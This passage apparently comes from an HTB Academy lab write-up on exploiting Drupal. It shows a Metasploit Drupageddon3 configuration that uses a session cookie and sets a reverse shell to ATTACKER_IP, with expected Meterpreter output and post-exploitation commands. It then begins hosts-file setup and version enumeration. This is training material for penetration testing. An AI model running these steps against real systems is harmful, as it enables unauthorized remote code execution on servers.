 **Module Configuration:**
```bash
msfconsole
use exploit/multi/http/drupal_drupageddon3

# Basic target configuration
set RHOSTS 10.129.42.195
set VHOST drupal-acc.inlanefreight.local
set DRUPAL_SESSION SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
set DRUPAL_NODE 1

# Payload configuration
set LHOST ATTACKER_IP
set LPORT 4444

# Verify configuration
show options
```

**Exploitation Execution:**
```bash
# Execute exploit
exploit

# Expected results:
[*] Started reverse TCP handler on ATTACKER_IP:4444
[*] Token Form -> GH5mC4x2UeKKb2Dp6Mhk4A9082u9BU_sWtEudedxLRM
[*] Token Form_build_id -> form-vjqTCj2TvVdfEiPtfbOSEF8jnyB6eEpAPOSHUR2Ebo8
[*] Sending stage (39264 bytes) to TARGET_IP
[*] Meterpreter session 1 opened

# Post-exploitation
meterpreter > getuid
Server username: www-data (33)

meterpreter > sysinfo
Computer    : app01
OS          : Linux app01 5.4.0-81-generic
```

---

## HTB Academy Lab Solutions

### Lab: Multi-Vector Drupal RCE Challenge
**Question:** "Work through all of the examples in this section and gain RCE multiple ways via the various Drupal instances on the target host. When you are done, submit the contents of the flag.txt file in the /var/www/drupal.inlanefreight.local directory."

**Comprehensive Solution Methodology:**

#### Step 1: Environment Setup & Target Analysis
```bash
# Add required VHost entries
echo "10.129.243.75 drupal-qa.inlanefreight.local" >> /etc/hosts
echo "10.129.243.75 drupal-dev.inlanefreight.local" >> /etc/hosts
echo "10.129.243.75 drupal.inlanefreight.local" >> /etc/hosts

# Verify connectivity to all targets
curl -I http://drupal-qa.inlanefreight.local/
curl -I http://drupal-dev.inlanefreight.local/
curl -I http://drupal.inlanefreight.local/

# Version enumeration for each target
curl -s http://drupal-qa.inlanefreight.local/CHANGELOG.txt | head -n 3
```